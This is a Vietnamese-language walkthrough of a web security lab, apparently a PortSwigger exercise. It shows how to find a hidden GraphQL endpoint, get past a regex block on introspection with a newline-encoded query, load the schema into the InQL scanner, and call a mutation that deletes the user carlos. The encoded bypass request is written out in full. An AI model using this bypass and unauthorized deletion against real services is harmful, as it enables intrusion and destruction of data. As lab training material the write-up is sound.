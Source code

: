 > [!NOTE]
> Nếu một endpoint chỉ chấp nhận truy vấn introspection thông qua GET và bạn muốn phân tích kết quả của truy vấn với InQL, đều tiên bạn cần lưu truy kết quả truy vấn vào một file, sau đó bạn hãy load file này trong InQL, nó sẽ hoạt động như bình thường
## Lab - tìm mọt GraphQL endpoint ẩn
- Hàm quản lý user của lab này được hỗ trợ bởi một GraphQL endpoint ẩn. Bạn sẽ không tìm thấy endpoint theo cách thông thường nữa. Endpoint cũng sẽ có một số biện pháp def introspection
- Để giải lab này, tìm endpoint ẩn và xoá ```carlos```
- Ok ta truy cập vào web và check HTTP history, và không thấy có cái GraphQL nào cả, bởi nó đã bị ẩn
- Nhưng ẩn thì Scanner vẫn cứu dược được :|| Scanner sẽ quét được một vuln ở path ```/api```, và ta có thể sử dụng nó
- Thử send qua repeater rồi request xem sao ![image](https://github.com/Myozz/Web_Applications/assets/94811005/a5d55356-cbcb-4019-8e87-a8c939fc358e)
- Cái trên là do chúng ta chưa truy vấn cái gì, tôi sẽ sửa request thành ```GET /api?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D``` ![image](https://github.com/Myozz/Web_Applications/assets/94811005/f2b06583-2c71-494d-80a2-b0cf42abfe69)
- Để lấy nhiều thông tin hơn thì ta sửa request thành ```/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A``` ![image](https://github.com/Myozz/Web_Applications/assets/94811005/b619a6c3-d187-4bb7-b7d4-2d7293312d48)
- Để ý răng response bây giờ đã có đầy đủ chi tiết introspection. Đây là bởi server được config để xuất truy vấn phù hợp với regex ```"__schema{"```, mà truy vấn đã không còn phù hợp mặc dù vẫn là một introspection query hợp lệ
- Lưu response dưới dạng file json
- Import vào InQL Scanner ![image](https://github.com/Myozz/Web_Applications/assets/94811005/c3952d5a-aef9-4dc0-81fa-275f4f0779ad)
- Send sang repeater nhưng cần phải dùng URL encode để có thể request
- Send request rồi quay lại InQL, check mutation ta thấy có một mutation để xoá user, encode sang url rồi cũng send sáng repeater để request tiếp thôi
